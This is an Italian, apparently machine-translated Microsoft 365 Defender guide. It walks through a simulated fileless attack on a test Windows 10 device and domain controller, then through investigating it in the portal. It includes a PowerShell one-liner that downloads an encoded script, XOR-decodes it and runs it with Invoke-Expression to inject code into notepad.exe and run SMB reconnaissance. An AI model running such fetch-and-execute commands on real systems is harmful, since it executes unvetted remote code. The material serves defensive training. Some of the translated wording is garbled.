

# <a name="run-an-attack-simulation-in-a-microsoft-365-defender-pilot-environment"></a>Eseguire una simulazione di attacco in un Microsoft 365 Defender pilota


Questo articolo è [il passaggio 1 di 2](eval-defender-investigate-respond.md) nel processo di esecuzione di un'indagine e di risposta a un evento imprevisto in Microsoft 365 Defender un ambiente pilota. Per ulteriori informazioni su questo processo, vedere [l'articolo di panoramica.](eval-defender-investigate-respond.md)

Dopo aver preparato l'ambiente [pilota,](eval-defender-investigate-respond.md)è il momento di testare la risposta agli incidenti di Microsoft 365 Defender e le funzionalità di analisi e correzione automatizzate creando un evento imprevisto con un attacco simulato e utilizzando il portale di Microsoft 365 Defender per analizzare e rispondere.

Un evento imprevisto Microsoft 365 Defender è una raccolta di avvisi correlati e dati associati che costituiscono la storia di un attacco.

Microsoft 365 e le app creano avvisi quando rilevano un evento o un'attività sospetta o dannosa. I singoli avvisi forniscono indicazioni preziose su un attacco completato o in corso. Tuttavia, gli attacchi in genere utilizzano diverse tecniche per diversi tipi di entità, ad esempio dispositivi, utenti e cassette postali. Il risultato è più avvisi per più entità nel tenant.

>[!Note]
>Se non si ha novità nell'analisi [](first-incident-overview.md) della sicurezza e nella risposta agli incidenti, vedere la procedura dettagliata Rispondi al primo evento imprevisto per ottenere una presentazione guidata di un processo tipico di analisi, correzione e revisione post-incidente.
>

## <a name="simulate-attacks-with-the-microsoft-365-defender-portal"></a>Simulare gli attacchi con il Microsoft 365 Defender portale

Il portale Microsoft 365 Defender ha funzionalità integrate per creare attacchi simulati all'ambiente pilota:

- Formazione sulla simulazione di Microsoft 365 Defender per Office 365 all'indirizzo [https://security.microsoft.com/attacksimulator](https://security.microsoft.com/attacksimulator) .
  
  Nel portale Microsoft 365 Defender, selezionare Formazione sulla simulazione di **& e > di simulazione degli attacchi** tramite posta elettronica.

- Esercitazioni di attacco & simulazioni per Microsoft 365 Defender per gli endpoint all'indirizzo [https://security.microsoft.com/tutorials/simulations](https://security.microsoft.com/tutorials/simulations) .

  Nel portale Microsoft 365 Defender, selezionare **Endpoint > esercitazioni & simulazioni**.

### <a name="defender-for-office-365-attack-simulation-training"></a>Formazione sulla simulazione Office 365 Defender for Office 365 Attack

Defender for Office 365 con Microsoft 365 E5 o Microsoft Defender per Office 365 Piano 2 include un training di simulazione degli attacchi per gli attacchi di phishing. I passaggi di base sono:

1. Creare una simulazione

   Per istruzioni dettagliate su come creare e inviare una nuova [simulazione,](/microsoft-365/security/office-365-security/attack-simulation-training)vedere Simulate a phishing attack .

2. Creare un payload

   Per istruzioni dettagliate su come creare un payload da usare all'interno di una simulazione, vedi Creare un payload personalizzato per [il training della simulazione di attacco.](/microsoft-365/security/office-365-security/attack-simulation-training-payloads)

3. Ottenere informazioni dettagliate

   Per istruzioni dettagliate su come ottenere informazioni dettagliate con la creazione di report, vedi Acquisire informazioni dettagliate tramite la formazione [sulla simulazione di attacchi.](/microsoft-365/security/office-365-security/attack-simulation-training-insights)

Per ulteriori informazioni, vedere [Simulations.](/microsoft-365/security/office-365-security/attack-simulation-training-get-started#simulations)

### <a name="defender-for-endpoint-attack-tutorials--simulations"></a>Esercitazioni sull'attacco di Defender per endpoint & simulazioni

Ecco le simulazioni di Defender for Endpoint di Microsoft:

- Backdoor dei documenti
- Indagine automatizzata (backdoor)

Sono disponibili simulazioni aggiuntive da IQ di attacco e SafeBreach. Sono disponibili anche una serie di esercitazioni.

Per ogni simulazione o esercitazione:

1. Scaricare e leggere il documento di analisi corrispondente fornito con la simulazione o lo scenario selezionato.

2. Scarica il file di simulazione. Puoi scegliere di scaricare il file o lo script nel dispositivo di test, ma non è obbligatorio.

3. Eseguire il file o lo script di simulazione nel dispositivo di test come indicato nel documento di analisi.

 Per altre informazioni, vedi [Esperienza di Microsoft Defender per Endpoint tramite attacco simulato.](/microsoft-365/security/defender-endpoint/attack-simulations)

## <a name="simulate-an-attack-with-an-isolated-domain-controller-and-client-device-optional"></a>Simulare un attacco con un controller di dominio isolato e un dispositivo client (facoltativo)

In questo esercizio facoltativo di risposta agli eventi imprevisti, si simula un attacco a un controller di dominio di Servizi di dominio Active Directory isolato e a un dispositivo Windows 10 utilizzando uno script di PowerShell e quindi si analizza, si corregge e si risolve l'evento imprevisto.

Innanzitutto, è necessario aggiungere endpoint all'ambiente pilota.

### <a name="add-pilot-environment-endpoints"></a>Aggiungere endpoint dell'ambiente pilota

Prima di tutto, è necessario aggiungere un controller di dominio di Servizi di dominio Active Directory isolato e Windows 10 dispositivo all'ambiente pilota.

1. Verificare che il tenant dell'ambiente [pilota abbia abilitato Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on).

2. Verificare che il controller di dominio:

   - Esegue Windows Server 2008 R2 o versione successiva.
   - Segnala a [Microsoft Defender per l'identità e](/azure/security-center/security-center-wdatp) ha abilitato la gestione [remota.](/windows-server/administration/server-manager/configure-remote-management-in-server-manager)
   - Microsoft [Defender per l'identità e l'Microsoft Cloud App Security è](/cloud-app-security/mdi-integration) abilitata.
   - Viene creato un utente di test nel dominio di test. Le autorizzazioni a livello di amministratore non sono necessarie.

3. Verificare che il dispositivo di test:

   - Viene Windows 10 versione 1903 o successiva.
   - Fa parte del dominio del controller di dominio di Servizi di dominio Active Directory.
   - Ha [Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features) abilitato. In caso di problemi durante l'abilitazione Windows Defender Antivirus, vedere questo [argomento per la risoluzione dei problemi.](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)
   - Viene [onboarded in Microsoft Defender for Endpoint.](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)

Se usi i gruppi di tenant e dispositivi, crea un gruppo di dispositivi dedicato per il dispositivo di test e spingilo al livello superiore.

Un'alternativa consiste nell'ospitare il controller di dominio e il dispositivo di test di Servizi di dominio Active Directory come macchine virtuali nei Microsoft Azure di infrastruttura. Puoi usare le istruzioni nella [fase 1](/microsoft-365/enterprise/simulated-ent-base-configuration-microsoft-365-enterprise#phase-1-create-a-simulated-intranet)della guida al laboratorio di testing aziendale simulata, ma ignora la creazione della macchina virtuale APP1.

Ecco il risultato.



Si simula un attacco sofisticato che sfrutta tecniche avanzate per nascondersi dal rilevamento. L'attacco enumera le sessioni SMB (Server Message Block) aperte nei controller di dominio e recupera gli indirizzi IP recenti dei dispositivi degli utenti. Questa categoria di attacchi in genere non include i file rilasciati nel dispositivo della vittima e si verificano esclusivamente in memoria. Usano strumenti di amministrazione e di sistema esistenti e inserisce il codice nei processi di sistema per nasconderne l'esecuzione. Questo comportamento consente loro di evitare il rilevamento e di persistere nel dispositivo.

In questa simulazione, lo scenario di esempio inizia con uno script di PowerShell. Nel mondo reale, un utente potrebbe essere ingannato nell'esecuzione di uno script o lo script potrebbe essere eseguito da una connessione remota a un altro computer da un dispositivo in precedenza infetto, il che indica che l'utente malintenzionato sta tentando di spostarsi lateralmente nella rete. Il rilevamento di questi script può essere difficile perché gli amministratori spesso eseguono anche script in remoto per eseguire diverse attività amministrative.


Durante la simulazione, l'attacco inserisce shellcode in un processo apparentemente innocenza. Lo scenario richiede l'uso di notepad.exe. Abbiamo scelto questo processo per la simulazione, ma è più probabile che gli utenti malintenzionati si ritorsino a un processo di sistema a esecuzione lunga, ad esempio svchost.exe. Il codice shell passa quindi a contattare il server di comando e controllo (C2) dell'utente malintenzionato per ricevere istruzioni su come procedere. Lo script tenta di eseguire query di ricognizione sul controller di dominio . La ricognizione consente a un utente malintenzionato di ottenere informazioni sulle informazioni di accesso degli utenti recenti. Una volta che gli utenti malintenzionati hanno queste informazioni, possono spostarsi lateralmente nella rete per accedere a un account sensibile specifico

> [!IMPORTANT]
> Per ottenere risultati ottimali, seguire le istruzioni di simulazione degli attacchi il più attentamente possibile.

### <a name="run-the-isolated-ad-ds-domain-controller-attack-simulation"></a>Eseguire la simulazione di attacco del controller di dominio di Servizi di dominio Active Directory isolato

Per eseguire la simulazione dello scenario di attacco:

1. Verificare che l'ambiente pilota includa il controller di dominio di Servizi di dominio Active Directory isolato e Windows 10 dispositivo.

2. Accedi al dispositivo di test con l'account utente di test.

3. Apri una Windows PowerShell nel dispositivo di test.

4. Copiare lo script di simulazione seguente:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > Se si apre questo articolo in un Web browser, è possibile che si verifichino problemi durante la copia del testo completo senza perdere determinati caratteri o introducendo interruzioni di riga aggiuntive. In questo caso, scarica questo documento e aprilo in Adobe Reader.

5. Incollare ed eseguire lo script copiato nella finestra di PowerShell.

> [!NOTE]
> Se si esegue PowerShell con RDP (Remote Desktop Protocol), utilizzare il comando Digita testo Appunti nel client RDP perché il tasto di scelta rapida **CTRL-V** o il metodo di incolla con il pulsante destro del mouse potrebbe non funzionare. Anche le versioni recenti di PowerShell a volte non accettano questo metodo, potrebbe essere necessario prima copiarlo in Blocco note in memoria, copiarlo nella macchina virtuale e quindi incollarlo in PowerShell.

Pochi secondi dopo, l'app Blocco note si aprirà. Un codice di attacco simulato verrà inserito in Blocco note. Mantenere aperta l'Blocco note generata automaticamente per sperimentare lo scenario completo.

Il codice di attacco simulato tenterà di comunicare con un indirizzo IP esterno (simulando il server C2) e quindi tenterà la ricognizione con il controller di dominio tramite SMB.

Questo messaggio verrà visualizzato nella console di PowerShell al termine dello script:

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

Per visualizzare la funzionalità Eventi imprevisti e risposte automatizzati in azione, mantenere aperto notepad.exe processo. Vedrai l'arresto automatico degli eventi imprevisti e della risposta Blocco note processo.

### <a name="investigate-the-incident-for-the-simulated-attack"></a>Analizzare l'evento imprevisto per l'attacco simulato

> [!NOTE]
> Prima di illustrare questa simulazione, guardare il video seguente per vedere come la gestione degli eventi imprevisti consente di riunire gli avvisi correlati nell'ambito del processo di indagine, dove è possibile trovarlo nel portale e come può essere utile nelle operazioni di sicurezza:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

Passando al punto di vista dell'analista SOC, è ora possibile iniziare a analizzare l'attacco nel Microsoft 365 Defender portale.

1. Aprire il [Microsoft 365 Defender portale.](https://security.microsoft.com/)

2. Nel riquadro di spostamento selezionare **Eventi imprevisti & avvisi > eventi imprevisti**.

3. Il nuovo evento imprevisto per l'attacco simulato verrà visualizzato nella coda degli eventi imprevisti.

    

#### <a name="investigate-the-attack-as-a-single-incident"></a>Analizzare l'attacco come un singolo evento imprevisto

Microsoft 365 Defender l'analisi e aggrega tutti gli avvisi e le indagini correlati di prodotti diversi in un'unica entità evento imprevisto. In questo modo, Microsoft 365 Defender una storia di attacco più ampia, consentendo all'analista SOC di comprendere e rispondere a minacce complesse.

Gli avvisi generati durante questa simulazione sono associati alla stessa minaccia e, di conseguenza, vengono aggregati automaticamente come singolo evento imprevisto.

Per visualizzare l'evento imprevisto:

1. Aprire il [Microsoft 365 Defender portale.](https://security.microsoft.com/)

2. Nel riquadro di spostamento selezionare **Eventi imprevisti & avvisi > eventi imprevisti**.

3. Seleziona l'elemento più recente facendo clic sul cerchio a sinistra del nome dell'evento imprevisto. Un pannello laterale visualizza informazioni aggiuntive sull'evento imprevisto, inclusi tutti gli avvisi correlati. Ogni evento imprevisto ha un nome univoco che lo descrive in base agli attributi degli avvisi inclusi.

   Gli avvisi visualizzati nel dashboard possono essere filtrati in base alle risorse del servizio: Microsoft Defender for Identity, Microsoft Cloud App Security, Microsoft Defender for Endpoint, Microsoft 365 Defender e Microsoft Defender per Office 365.

3. Selezionare **Apri pagina evento imprevisto** per ottenere ulteriori informazioni sull'evento imprevisto.

   Nella pagina **Evento** imprevisto è possibile visualizzare tutti gli avvisi e le informazioni relative all'evento imprevisto. Le informazioni includono le entità e gli asset coinvolti nell'avviso, l'origine di rilevamento degli avvisi (ad esempio Microsoft Defender for Identity o Microsoft Defender for Endpoint) e il motivo per cui sono stati collegati tra loro. Esaminando l'elenco degli avvisi di eventi imprevisti viene mostrata la progressione dell'attacco. Da questa visualizzazione è possibile visualizzare e analizzare i singoli avvisi.

   È inoltre possibile scegliere **Gestisci evento imprevisto** dal menu a destra per contrassegnare l'evento imprevisto, assegnarlo a se stessi e aggiungere commenti.

#### <a name="review-generated-alerts"></a>Esaminare gli avvisi generati

Esamini alcuni degli avvisi generati durante l'attacco simulato.

> [!NOTE]
> Verranno visualizzati solo alcuni degli avvisi generati durante l'attacco simulato. A seconda della versione di Windows e dei prodotti Microsoft 365 Defender in esecuzione nel dispositivo di test, è possibile che vengano visualizzati più avvisi in un ordine leggermente diverso.


##### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint"></a>Avviso: rilevato inserimento di processi sospetti (Origine: Microsoft Defender per endpoint)

Gli autori di attacchi avanzati usano metodi sofisticati e furtivi per mantenere la memoria e nascondersi dagli strumenti di rilevamento. Una tecnica comune consiste nell'operare dall'interno di un processo di sistema attendibile anziché da un eseguibile dannoso, rendendo difficile per gli strumenti di rilevamento e le operazioni di sicurezza individuare il codice dannoso.

Per consentire agli analisti SOC di intercettare questi attacchi avanzati, i sensori di memoria profonda in Microsoft Defender for Endpoint offrono al nostro servizio cloud una visibilità senza precedenti su un'ampia gamma di tecniche di inserimento di codice cross-process. La figura seguente mostra come Defender for Endpoint ha rilevato e avvisato il tentativo di inserire codice per <i>notepad.exe</i>.


##### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint"></a>Avviso: comportamento imprevisto osservato da un processo eseguito senza argomenti della riga di comando (Source: Microsoft Defender for Endpoint)

I rilevamenti di Microsoft Defender for Endpoint spesso sono mirati all'attributo più comune di una tecnica di attacco. Questo metodo garantisce la durata e alza l'astio per consentire agli utenti malintenzionati di passare a tattiche più nuove.

Si utilizzano algoritmi di apprendimento su larga scala per stabilire il comportamento normale dei processi comuni all'interno di un'organizzazione e in tutto il mondo e osservare quando questi processi mostrano comportamenti anomali. Questi comportamenti anomali spesso indicano che il codice estraneo è stato introdotto ed è in esecuzione in un processo altrimenti attendibile.

Per questo scenario, il processo <i>notepad.exe</i> presenta un comportamento anomalo, che implica la comunicazione con una posizione esterna. Questo risultato è indipendente dal metodo specifico utilizzato per introdurre ed eseguire il codice dannoso.

> [!NOTE]
> Poiché questo avviso si basa su modelli di machine learning che richiedono un'ulteriore elaborazione back-end, potrebbe essere necessario del tempo prima di visualizzare questo avviso nel portale.

Si noti che i dettagli dell'avviso includono l'indirizzo IP esterno, un indicatore che è possibile utilizzare come pivot per espandere l'indagine.

Selezionare l'indirizzo IP nell'albero del processo di avviso per visualizzare la pagina dei dettagli dell'indirizzo IP.


Nella figura seguente viene visualizzata la pagina dei dettagli dell'indirizzo IP selezionata (facendo clic sull'indirizzo IP nell'albero del processo di avviso).


##### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a>Avviso: ricognizione degli indirizzi IP e degli utenti (SMB) (Origine: Microsoft Defender per l'identità)

L'enumerazione tramite il protocollo SMB (Server Message Block) consente agli utenti malintenzionati di ottenere informazioni di accesso utente recenti che consentono loro di spostarsi lateralmente attraverso la rete per accedere a uno specifico account sensibile.

In questo rilevamento, viene attivato un avviso quando l'enumerazione della sessione SMB viene eseguita su un controller di dominio.


#### <a name="review-the-device-timeline-with-microsoft-defender-for-endpoint"></a>Esaminare la sequenza temporale del dispositivo con Microsoft Defender for Endpoint

Dopo aver esaminato i vari avvisi in questo evento imprevisto, tornare alla pagina dell'evento imprevisto analizzata in precedenza. Seleziona la **scheda Dispositivi** nella pagina dell'evento imprevisto per esaminare i dispositivi coinvolti in questo evento, come segnalato da Microsoft Defender per Endpoint e Microsoft Defender per l'identità.

Seleziona il nome del dispositivo in cui è stato condotto l'attacco per aprire la pagina dell'entità per quel dispositivo specifico. In tale pagina è possibile visualizzare gli avvisi attivati e gli eventi correlati.

Seleziona la **scheda Sequenza** temporale per aprire la sequenza temporale del dispositivo e visualizzare tutti gli eventi e i comportamenti osservati nel dispositivo in ordine cronologico, in sequenza con gli avvisi generati.


L'espansione di alcuni dei comportamenti più interessanti fornisce dettagli utili, ad esempio alberi di processo.

Ad esempio, scorrere verso il basso fino a trovare l'evento di avviso **Sospetto inserimento del processo osservato**. Seleziona il **powershell.exe iniettato** per notepad.exe di processo sotto di esso, per visualizzare  l'albero di processo completo per questo comportamento nel grafico Entità evento nel riquadro laterale. Se necessario, utilizzare la barra di ricerca per il filtro.


#### <a name="review-the-user-information-with-microsoft-cloud-app-security"></a>Esaminare le informazioni utente con Microsoft Cloud App Security

Nella pagina dell'evento imprevisto selezionare la **scheda Utenti** per visualizzare l'elenco degli utenti coinvolti nell'attacco. La tabella contiene informazioni aggiuntive su ogni utente, incluso il punteggio Priorità indagine **di ogni** utente.

Selezionare il nome utente per aprire la pagina del profilo dell'utente in cui è possibile eseguire ulteriori indagini. [Altre informazioni sull'analisi degli utenti rischiosi.](/cloud-app-security/tutorial-ueba#identify)


#### <a name="automated-investigation-and-remediation"></a>Indagine e correzione automatizzate

> [!NOTE]
>Prima di illustrare questa simulazione, guardare il video seguente per acquisire familiarità con ciò che è l'auto-correzione automatica, dove trovarla nel portale e come può essere utile nelle operazioni di sicurezza:

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

Tornare all'evento imprevisto nel portale Microsoft 365 Defender eventi. La **scheda Indagini** nella pagina **Evento** imprevisto mostra le indagini automatizzate attivate da Microsoft Defender for Identity e Microsoft Defender for Endpoint. Lo screenshot seguente mostra solo l'indagine automatizzata attivata da Defender per Endpoint. Per impostazione predefinita, Defender per Endpoint consente di correggere automaticamente gli elementi trovati nella coda, che richiedono la correzione.


Seleziona l'avviso che ha attivato un'indagine per aprire la **pagina Dettagli indagine.** Verranno visualizzati i dettagli seguenti:

- Avvisi che hanno attivato l'indagine automatizzata.
- Utenti e dispositivi influenzati. Se vengono trovati indicatori su altri dispositivi, verranno elencati anche questi dispositivi aggiuntivi.
- Elenco di prove. Entità trovate e analizzate, ad esempio file, processi, servizi, driver e indirizzi di rete. Queste entità vengono analizzate per le possibili relazioni con l'avviso e classificate come benigne o dannose.
- Minacce trovate. Minacce note rilevate durante l'indagine.

> [!NOTE]
> A seconda dei tempi, l'indagine automatizzata potrebbe essere ancora in esecuzione. Attendere alcuni minuti per il completamento del processo prima di raccogliere e analizzare le prove ed esaminare i risultati. Aggiorna la **pagina Dettagli indagine** per ottenere i risultati più recenti.


Durante l'indagine automatizzata, Microsoft Defender for Endpoint ha identificato il processo di notepad.exe, che è stato iniettato come uno degli artefatti che richiedono la correzione. Defender for Endpoint interrompe automaticamente l'inserimento di processi sospetti nell'ambito della correzione automatica.

È possibile visualizzare <i>notepad.exe</i> dall'elenco dei processi in esecuzione nel dispositivo di test.

#### <a name="resolve-the-incident"></a>Risolvere l'evento imprevisto

Una volta completata l'indagine e confermata la correzione, è possibile risolvere l'evento imprevisto.

Nella pagina **Evento** imprevisto selezionare **Gestisci evento imprevisto.** Imposta lo stato su **Risolvi evento imprevisto** e seleziona **Avviso True** per la classificazione e i test di **sicurezza** per la determinazione.


Quando l'evento imprevisto viene risolto, risolve tutti gli avvisi associati Microsoft 365 Defender portale e nei portali correlati.

Questo include la simulazione di attacco per l'analisi degli incidenti, l'indagine automatizzata e la risoluzione degli incidenti.

## <a name="next-step"></a>Passaggio successivo

[](eval-defender-investigate-respond-additional.md)

Passaggio 2 di 2: provare [a Microsoft 365 Defender di risposta agli incidenti](eval-defender-investigate-respond-additional.md)

### <a name="navigation-you-may-need"></a>Spostamento che potrebbe essere necessario

[Creare l'Microsoft 365 Defender di valutazione](eval-create-eval-environment.md)
